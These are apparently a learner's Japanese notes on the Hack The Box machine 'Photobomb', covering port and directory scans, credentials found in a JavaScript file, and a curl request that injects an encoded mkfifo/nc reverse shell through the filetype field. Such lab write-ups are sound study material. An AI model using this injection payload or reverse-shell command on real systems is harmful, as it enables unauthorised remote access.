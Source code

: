 # photobomb
## とりあえずnmap
nmap -sV -T4 10.10.11.182

開いているポートは
22/tcp open  tcpwrapped
80/tcp open  http       nginx 1.18.0 (Ubuntu)

## 接続できない問題
以下のリンクにリダイレクトされる。
http://photobomb.htb/

sudo vim /etc/hosts
10.10.11.182  photobomb.htb

## 分かっている情報
nginx/1.18.0 (Ubuntu)
/printerが認証ページ
サポートチームの連絡先？：4 4283 77468377

## 他のページが存在しないか確認する
### gobuster
gobuster dir -u photobomb.htb -w /usr/share/wordlists/dirb/common.txt
404ページ以外に見つかったページは
- /printer
- /printers

どっちも認証が必要。。。

### ４０４ページ
Rubyでかかれているっぽい？
Sinatraって何だろう？
http://127.0.0.1:4567/__sinatra__/404.png

### /printer /printers
どちらもusername と password が必要。

### /photobomb.js
```javascrpt
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

### 分かったユーザ名とパスワードでssh接続できないのか？
tcpwrappersってのが邪魔でできないっぽい
https://48n.jp/blog/2016/06/06/guide-tcpwrappers/

### POSTするときにコマンドやスクリプトが実行できないか
と考えたけど、ここから知識がなくて進まない。
ねたばれみた
リバースシェルを作るらしい。
https://www.revshells.com/
`nc mkfifo`で作る
```
curl -X POST 'http://pH0t0:b0Mb!@photobomb.htb/printer' -d "photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.14.33%20443%20%3E%2Ftmp%2Ff&dimensions=3000x2000"
```
これで通った。
filetype=jpgのあとに`;`をつけることによってコマンドが実行できるらしい。

# あとはフラグ探すだけ
rootはまた今度。やれたらやるわw

